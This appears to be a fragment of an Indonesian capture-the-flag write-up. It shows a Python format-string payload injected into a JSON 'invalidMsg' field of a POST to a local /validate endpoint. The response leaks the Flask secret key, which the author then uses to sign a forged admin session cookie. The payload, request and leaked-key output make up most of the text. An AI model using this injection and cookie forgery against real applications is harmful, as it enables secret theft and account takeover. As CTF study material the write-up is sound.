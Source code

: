 payload akhir

```
{.__setattr__.__globals__[app].secret_key}
```

kita kirim lewat http request

```http
POST /validate HTTP/1.1
Host: localhost:8080
Content-Length: 141
sec-ch-ua: "-Not.A/Brand";v="8", "Chromium";v="102"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
sec-ch-ua-platform: "Linux"
Content-Type: application/json
Accept: */*
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=eyJpc0FkbWluIjpmYWxzZX0.Y0C_aQ.u7XE04JffCqrpKfQTyUCQIxE0N8
Connection: close

{
  "schema":{
    "name":"str",
    "foo":"str"
  },
  "validMsg":"",
  "invalidMsg":"{.__setattr__.__globals__[app].secret_key}",
  "data":"{\"name\":\"dimas\"}"
}
```

maka kita akan mendaptkan response

```http
HTTP/1.1 200 OK
server: nginx/1.18.0
date: Sat, 08 Oct 2022 01:28:37 GMT
content-type: application/json
content-length: 85
connection: close

{"isError":true,"message":"SchemaMissingKeyError: 3PmqjTIyNHJe3i5psDJNFAkwoJyUZTwy"} <= ini secret keynya
```

kita tinggal melakukan jwt sign saja dan memasukkan cookienya ke website tersebut
